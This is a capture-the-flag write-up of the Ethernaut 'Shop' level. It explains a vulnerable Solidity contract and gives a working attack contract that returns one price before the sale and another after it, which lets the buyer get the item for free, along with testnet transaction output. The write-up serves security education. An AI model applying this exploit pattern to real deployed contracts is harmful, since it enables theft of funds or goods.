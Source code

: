 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Challenge's message:

> Сan you get the item from the shop for less than the price asked?

This is a simple Solidity smart contract representing a shop where items can be bought. In this contract, we have **price** and **isSold** variables. The price is a public variable that holds the price of the item in the shop, initialized to 100. Then, the isSold variable is a boolean type that checks if the item has been sold or not.

- `Buyer` : This interface represents a buyer of the shop. It contains a function `price()` that when implemented, should return the price the buyer is willing to pay for the item.

- `buy()` : This function allows a buyer to buy an item from the shop. The function first creates an instance of the Buyer interface with the address of the person who called this function. It then checks if the price the buyer is willing to pay is greater than or equal to the price of the item and if the item has not been sold yet. If both conditions are met, the item is marked as sold and the price of the item is updated to the price the buyer paid.


This contract is a simple demonstration of how a shop might function on the blockchain. It should be noted that this contract does not actually transfer any ether or tokens, it simply changes the state variables based on the logic in the `buy()` function.


# Subverting

In this part of the challenge, the only thing we must do is reduce the price of the item. For this reason, we should change the returns value of the `price()` function in the Buyer interface to override the `price()` function. Remember that, the interface's functions can be overrideable. So, we will override the function that returns the value **based on the value of isSold with ternary operators**. I think we set the goals. Let's move on into attack contract.

```solidity
pragma solidity ^0.8.0;

import './Shop.sol';


contract Attack is Buyer{

    Shop target;

    constructor(address _target){
        target = Shop(_target);
    }

    function price() external override view returns (uint){
        return target.isSold() ? 0:100;
    }

    function attack()external{
        target.buy();
    }
}
```

Firstly, it gets an instance of the contract. And then, in the override `price()` function, if the isSold variable's value is equal to true, it returns 0. If it is not, it returns 100. Thus, we will pass the conditions call by call. Finally, call the `buy()` with the attack function. Get the item for free!

```solidity
return target.isSold() ? 0:100;
// _buyer.price() >= price && !isSold = isSold is false, return 100
//  isSold = true; = isSold is true
// price = _buyer.price(); = isSold is true, return 0 
```

Depoy the attack contract. See the transaction [on etherscan](https://sepolia.etherscan.io/tx/0x3ee4cdaa240aea64ccb4af6da0c59cfbe465e6c75e4bff24859053d4df6699b2).

Check the price's and isSold's values.

```js
await contract.price()
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [100, empty]
[[Prototype]]
: 
Object
```

```js
await contract.isSold()
false
```

Call the attack function and check values again. See the transaction [on etherscan](https://sepolia.etherscan.io/tx/0x66374d8cfea9c0d5ad2781f9e2aa21f8b2fec970d30d8d23fb33d0472537c76e).

```js
await contract.price()
i {negative: 0, words: Array(2), length: 1, red: null}
length
: 
1
negative
: 
0
red
: 
null
words
: 
(2) [0, empty]
[[Prototype]]
: 
Object
```

```js
await contract.isSold()
true
```

As you can see, we pass the challenge. See you in the next level!

Ethernaut's message:

> Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic.

**_by wasny0ps_**
